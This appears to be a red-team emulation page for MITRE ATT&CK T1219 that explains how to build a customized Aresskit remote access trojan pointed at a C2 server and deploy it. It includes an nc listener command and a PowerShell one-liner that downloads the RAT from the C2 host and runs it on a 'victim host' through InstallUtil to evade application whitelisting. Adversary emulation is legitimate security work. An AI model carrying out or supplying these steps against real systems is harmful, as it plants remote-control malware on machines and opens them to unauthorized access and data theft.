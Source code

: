 # Remote Access Tools

---
* **ID**: T1219
* **Source**: <https://attack.mitre.org/techniques/T1219/>
---

# Details

## Customized RAT
### Creating customized Aresskit
* Download the source code from [Github](https://github.com/BlackVikingPro/aresskit);
* Replace with [Program.cs](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/Program.cs) and modify all `<ip_of_C2>` and `<port_of_C2>` accordingly;
* Replace with [FileHandler.cs](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/FileHandler.cs);
* Compile the program using `Debug` - `Any CPU`;
* Copy file `aresskit.exe` under folder `.\aresskit\bin\Debug` and upload it to your C2 host;

### Using customized Aresskit
* Start a listener on C2 host:
```
nc -lvvp <port_of_C2>
```
* Download and execute `aresskit.exe` on the victim host by leveraging [`InstallUtil`](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1118/T1118.md):
```
powershell Invoke-WebRequest -Uri "http://<ip_of_C2>/aresskit.exe" -OutFile %ALLUSERSPROFILE%\aresskit.exe & C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U %ALLUSERSPROFILE%\aresskit.exe
```

# References

* <https://github.com/BlackVikingPro/aresskit>
* <https://stackoverflow.com/questions/34400546/could-not-load-file-or-assembly-operation-is-not-supported-exception-from-hres>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1118/T1118.md>
